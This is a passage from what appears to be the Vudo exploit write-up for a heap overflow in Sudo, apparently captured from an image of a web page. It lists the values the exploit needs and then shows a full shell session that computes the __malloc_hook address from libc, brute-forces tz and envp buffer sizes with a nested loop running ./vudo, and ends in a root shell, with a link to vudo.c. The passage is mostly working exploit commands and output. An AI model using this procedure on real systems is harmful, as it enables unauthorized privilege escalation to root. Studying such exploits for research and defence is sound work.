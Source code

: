 - the address of the __malloc_hook function pointer, which varies from
one system to another but can be determined;

- the size of the tz buffer, which varies slightly from one system to
another and has to be brute forced;

- the size of the envp buffer, which varies slightly from one system to
another and has to be brute forced.

A typical Vudo cult^H^H^H^Hsession starts with an authentication step,
a __malloc_hook computation step, and eventually a brute force step,
based on the tz and envp examples provided by the Vudo usage message
(fortunately the user does not need to provide their password each time
Sudo is executed during the brute force step because they authenticated
right before):

</PRE>
```c
$ /usr/bin/sudo www.MasterSecuritY.fr
Password:
maxx is not in the sudoers file.  This incident will be reported.

$ LD_TRACE_LOADED_OBJECTS=1 /usr/bin/sudo | grep /lib/libc.so.6
        libc.so.6 => /lib/libc.so.6 (0x00161000)
$ nm /lib/libc.so.6 | grep __malloc_hook
000ef1dc W __malloc_hook
$ perl -e 'printf "0x%08x\n", 0x00161000 + 0x000ef1dc'
0x002501dc

$ for tz in `seq 62587 8 65531`
do
for envp in `seq 6862 2 6874`
do
./vudo 0x002501dc $tz $envp
done
done
maxx is not in the sudoers file.  This incident will be reported.
maxx is not in the sudoers file.  This incident will be reported.
maxx is not in the sudoers file.  This incident will be reported.
maxx is not in the sudoers file.  This incident will be reported.
maxx is not in the sudoers file.  This incident will be reported.
maxx is not in the sudoers file.  This incident will be reported.
maxx is not in the sudoers file.  This incident will be reported.
maxx is not in the sudoers file.  This incident will be reported.
maxx is not in the sudoers file.  This incident will be reported.
maxx is not in the sudoers file.  This incident will be reported.
bash#
```
<PRE>

</PRE>
Source: [vudo.c](/dl/57/8/vudo.c)
<PRE>
